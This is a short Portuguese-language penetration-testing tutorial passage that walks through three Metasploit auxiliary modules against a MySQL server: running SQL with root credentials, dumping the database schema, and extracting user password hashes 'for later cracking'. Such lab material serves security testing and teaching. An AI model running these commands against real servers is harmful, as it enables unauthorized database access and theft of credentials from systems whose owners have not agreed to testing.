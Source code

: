 ### Executando consultas SQL sem fazer login no Mysql
Este módulo permite que instruções SQL simples sejam executadas em uma instância MySQL com as credenciais apropriadas. Para isso, digite:

```shell
msf6 > use auxiliary/admin/mysql/mysql_sql
set rhosts IP_ALVO
set username root
set password 123
set sql show databases
exploit
```

### Extrair informações do Mysql-Schemadump
Nosso próximo módulo extrai as informações do esquema de um servidor MySQL DB. Para este exploit, digite:

```shell
msf6 > use auxiliary/scanner/mysql/mysql_schemadump
set rhosts IP_ALVO
set username root
set password 123
exploit
```

### Extraindo o login do servidor Mysql
Este vai extrair os nomes de usuário e hashes de senha criptografados de um servidor MySQL e os armazena para posterior cracking; use o seguinte exploit:

```shell
msf6 > use auxiliary/scanner/mysql/mysql_hashdump
set rhosts 192.168.1.108
set username root
set password 123
exploit
```
